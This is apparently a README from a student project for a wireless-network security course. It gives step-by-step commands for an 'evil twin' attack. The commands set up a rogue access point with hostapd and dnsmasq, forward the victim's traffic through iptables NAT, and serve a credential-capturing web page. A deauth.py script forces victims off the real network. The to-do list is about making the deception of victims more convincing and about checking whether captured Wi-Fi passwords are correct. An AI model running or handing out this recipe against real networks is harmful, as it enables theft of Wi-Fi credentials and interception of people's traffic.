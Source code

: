 # Evil Twin Attack
------------
#### Short info
'Ewil Twin Attack' is college project for Security of wireless networks course.
Some of the technologies used in this project are: 
  - Python, Scapy
  - Hostapd, Dnsmasq
  - Express.js
  - HTML, CSS, JavaScript
  - Linux (Kali)
 
---------
#### Demo
Setting up the attack:
> Check out your interfaces
```
$ iwconfig
```
> Kill processes that could cause trouble
```
$ airmon-ng check kill
```
> Put interface in monitor mode
```
$ airmon-ng start <interface>
```
> Modify hostapd.conf parameters and then start access point
```
$ hostapd hostapd.conf
```
> Assign the network Gateway and netmask to the interface and add the routing table
```
$ ifconfig <interface> up 192.168.1.1 netmask 255.255.255.0
$ route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```
> Modify dnsmasq.conf parameters and then start dnsmasq
```
$ dnsmasq -C dnsmasq.conf -d
```
> Provide your victim with internet access. 
Forward traffic from one interface to another and enable traffic forwarding
```
$ iptables --table nat --append POSTROUTING --out-interface <out-interface> -j MASQUERADE
$ iptables --append FORWARD --in-interface <in-interface> -j ACCEPT
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```
> Install dependencies, create `.env` file with PORT=80, and run the server
```
$ npm install
$ npm start
```
> If you want force connection run `deauth.py` (disconnect victim from real access point)
```
$ python deauth.py
```

#### To-do
 - Automating script for running and configuring hostapd, dnsmasq and traffic forwarding
 - Better and more convincing way of dealing with victim if credentials are true of false
 - Find new way of checking if credentials are correct (response size is not reliable)
